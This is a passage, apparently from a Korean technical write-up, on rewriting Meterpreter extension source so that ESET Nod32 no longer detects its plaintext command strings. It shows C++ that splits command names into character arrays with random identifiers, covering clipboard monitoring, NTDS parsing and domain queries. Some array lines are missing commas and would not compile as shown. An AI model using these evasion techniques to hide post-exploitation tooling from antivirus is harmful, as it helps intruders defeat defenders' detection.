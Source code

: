 이러한 문자열들은 *ext_server_espia_x64.dll*의 *.rdata* 섹션에 평문으로 저장되고 *ESET Nod32*에 의해 감지된다.

설상가상으로 이러한 문자열들은 리스트 이니셜라이저에 위치한 매크로의 매개변수이다. 이로인해 극복할 수 없는 까다로운 코너 케이스가 발생한다. 목표는 아래와 같이 자동적으로 위의 코드를 재작성하는 것이다.

```cpp
char hid_extapi_UQOoNXigAPq4[] = {'e','x','t','a','p','i','_','w','i','n','d','o','w','_','e','n','u','m',0};
char hid_extapi_vhFHmZ8u2hfz[] = {'e','x','t','a','p','i','_','s','e','r','v','i','c','e','_','e','n','u','m',0};
char hid_extapi_pW25eeIGBeru[] = {'e','x','t','a','p','i','_','s','e','r','v','i','c','e','_','q','u','e','r','y'
0};
char hid_extapi_S4Ws57MYBjib[] = {'e','x','t','a','p','i','_','s','e','r','v','i','c','e','_','c','o','n','t','r'
'o','l',0};
char hid_extapi_HJ0lD9Dl56A4[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','g','e','t'
'_','d','a','t','a',0};
char hid_extapi_IiEzXils3UsR[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','s','e','t'
'_','d','a','t','a',0};
char hid_extapi_czLOBo0HcqCP[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n'
'i','t','o','r','_','s','t','a','r','t',0};
char hid_extapi_WcWbTrsQujiT[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n'
'i','t','o','r','_','p','a','u','s','e',0};
char hid_extapi_rPiFTZW4ShwA[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n'
'i','t','o','r','_','r','e','s','u','m','e',0};
char hid_extapi_05fAoaZLqOoy[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n'
'i','t','o','r','_','p','u','r','g','e',0};
char hid_extapi_cOOyHTPTvZGK[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n','i','t','o','r','_','s','t','o','p',0};
char hid_extapi_smtmvW05cI9y[] = {'e','x','t','a','p','i','_','c','l','i','p','b','o','a','r','d','_','m','o','n','i','t','o','r','_','d','u','m','p',0};
char hid_extapi_01kuYCM8z49k[] = {'e','x','t','a','p','i','_','a','d','s','i','_','d','o','m','a','i','n','_','q','u','e','r','y',0};
char hid_extapi_SMK9uFj6nThk[] = {'e','x','t','a','p','i','_','n','t','d','s','_','p','a','r','s','e',0};
char hid_extapi_PHxnGM7M0609[] = {'e','x','t','a','p','i','_','w','m','i','_','q','u','e','r','y',0};
char hid_extapi_J7EGS6FRHwkV[] = {'e','x','t','a','p','i','_','p','a','g','e','a','n','t','_','s','e','n','d','_','q','u','e','r','y',0};

Command customCommands[] =
{

    COMMAND_REQ(hid_extapi_UQOoNXigAPq4, request_window_enum),
    COMMAND_REQ(hid_extapi_vhFHmZ8u2hfz, request_service_enum),
    COMMAND_REQ(hid_extapi_pW25eeIGBeru, request_service_query),
    COMMAND_REQ(hid_extapi_S4Ws57MYBjib, request_service_control),
    COMMAND_REQ(hid_extapi_HJ0lD9Dl56A4, request_clipboard_get_data),
    COMMAND_REQ(hid_extapi_IiEzXils3UsR, request_clipboard_set_data),
    COMMAND_REQ(hid_extapi_czLOBo0HcqCP, request_clipboard_monitor_start),
    COMMAND_REQ(hid_extapi_WcWbTrsQujiT, request_clipboard_monitor_pause),
    COMMAND_REQ(hid_extapi_rPiFTZW4ShwA, request_clipboard_monitor_resume),
    COMMAND_REQ(hid_extapi_05fAoaZLqOoy, request_clipboard_monitor_purge),
    COMMAND_REQ(hid_extapi_cOOyHTPTvZGK, request_clipboard_monitor_stop),
    COMMAND_REQ(hid_extapi_smtmvW05cI9y, request_clipboard_monitor_dump),
    COMMAND_REQ(hid_extapi_01kuYCM8z49k, request_adsi_domain_query),
    COMMAND_REQ(hid_extapi_SMK9uFj6nThk, ntds_parse),
    COMMAND_REQ(hid_extapi_PHxnGM7M0609, request_wmi_query),
```